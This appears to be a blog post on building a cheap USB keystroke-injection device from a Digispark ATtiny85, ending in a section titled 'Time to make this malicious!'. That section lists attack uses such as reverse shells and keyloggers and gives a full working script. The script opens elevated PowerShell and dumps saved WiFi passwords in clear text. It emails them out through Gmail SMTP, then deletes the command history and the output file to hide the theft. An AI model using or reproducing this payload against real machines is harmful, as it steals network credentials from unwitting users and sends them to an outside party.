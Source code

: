 ```yaml
---
layout: post
title: £5 Rubber Ducky
author: TDSSEC
date: 2023-02-07 11:33:00 +0800
categories: [Physical Tools, DIY Rubber Ducky]
tags: [USB]
math: true
mermaid: true
image:
  path: /2023-02-07-5-Quid-Rubber-Ducky/attiny82-usb.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: ATtiny85 board
---
```


## USB Rubber Ducky
TL;DR A USB drive that disguises itself as a Keyboard, that injects keystrokes allowing an attacker to install backdoors, capture credentials or remotely obtain sensitive files.

The rubber ducky by [Hak5](https://shop.hak5.org/products/usb-rubber-ducky) is amazing, but getting your hands on one in the UK can be a struggle. Not only this, but the resale price of $99 as of today's post makes this a lot more expensive than simply building one for yourself for less than £5!

## £5 D.I.Y Prerequisites
- [Digispark Attiny 85](https://www.instructables.com/Digispark-Attiny-85-With-Arduino-IDE/) - a programmable board with 6kb memory (after 2kb goes to the bootloader)
- [Arduino IDE](https://www.arduino.cc/en/software)- Open-source IDE allowing you to write and upload code to the board.   
- [Digistump Drivers](https://github.com/digistump/DigistumpArduino/releases) - It's needed..!

## Heads up about shorting this device.  
Taken from [DigiStump.com](https://digistump.com/wiki/digispark/tutorials/connecting) directly:  

*The Digispark, due to its small size and low cost is not as robust as a full blown Arduino.*

*When testing a new circuit we recommend that you test it with an external power supply first. Connecting a shorted circuit to the Digispark and connecting it to your computer could damage your computer and/or its USB ports. We take no responsibility for damage to your machine as a result of the use of a Digispark.*

*We strongly recommend connecting your Digispark through a USB hub which will often limit the damage caused by a short circuit to the usb hub. For the record, we've found many computers have usb fuses built in, and when we blew them on our 27“ Mac monitor, thankfully they reset and everything worked after a power down.*

*The Digispark does not have short circuit or reverse polarity protection. Connecting power to the Digispark power pins backwards will almost certainly destroy it.*

## Drivers installation
Install the appropriate drivers for your Operating System in use. Without these installed, you might find that unless your Attiny85 came with a USB bootloader pre-installed, your OS wont detect this device!

## Arduino Setup
### Installation
1. Download and install Arduino.
Next, we need to download the boards for Digispark.  
3. Open **_File>Preferences_** and add the below URL to the **_Additional Board Manager URL_** section.
`http://digistump.com/package_digistump_index.json`
4. Click OK...
5. Select **_Tools>Boards>Board Manager_**.
6. Search for **Digistump AVR Boards** and Install

### Choosing the Digistump AVR Board  
1. Open **_Tools>Boards>Digistump AVR Board_**.
2. Select **Digispark (Default - 16.5mhz).

## Upload Test Script to the board  
With the drivers installed, as well as the Arduino setup, lets build and upload a built in keyboard test script.  
**Do not plug the Arduino in until step 5**.
1. Have the Digispark (Default - 16.5mhz) board selected within Arduino  
2. Open **_File>Example>DigisparkKeyboard>Keyboard_**.
3. Top-left select **_Verify_** button to check the code is OK.
4. Click the **_Upload_** button next to upload the code to the Arduino.
5. **Now you can plug the Arduino in**.

### Open a Text Editor  
1. Every 5 seconds, the Arduino will write "Hello Digispark!" - Confirming this has worked!

## Time to make this malicious!  
### Scripts  
A list of premade scripts are available by [DigiSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts).  
These include the ability to:
- Extract WiFi credentials and automatically email them to you
- Reverse shells
- Keyloggers
- Fork Bombs
- Account Creations
- Execute Powershell scripts
- Funny scripts to change the users mouse settings or download and play videos off YouTube (RickRoll) ...

### Recover & Email WiFi passwords Example

    //This DigiSpark script writes the wireless network credentials to a csv file and emails it.
    //Credits to p0wc0w.

    //NOTE about the New Version of this script: The older script stopped working on newer builds of Windows 10
    //since Windows 10 now require an elevated cmd or powershell to execute these commands. This version should
    //be faster (better, stronger...) and should work on all builds of Windows 10. For previous versions
    //of Windows or simply older builds of Windows 10, the other version works like a charm.

    #include "DigiKeyboard.h"
    void setup() {
    }

    void loop() {
      DigiKeyboard.sendKeyStroke(0);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("(netsh wlan show profiles) | Select-String '\\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=$name key=clear)}  | Select-String 'Key Content\\W+\\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -Path temp.csv;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(3000);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("$SMTPInfo = New-Object Net.Mail.SmtpClient('smtp.gmail.com', 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('GMAIL_USERNAME', 'GMAIL_PASSWORD'); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = 'SENDER_MAIL'; $ReportEmail.To.Add('RECEIVER_MAIL'); $ReportEmail.Subject = 'DigiSpark Report'; $ReportEmail.Body = 'Attached is your report. - Regards Your Digispark'; $ReportEmail.Attachments.Add('temp.csv'); $SMTPInfo.Send($ReportEmail);exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del (Get-PSReadlineOption).HistorySavePath;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print("cmd");
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del temp.csv"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(100);
      DigiKeyboard.print(F("exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      for(;;){ /*empty*/ }
      }
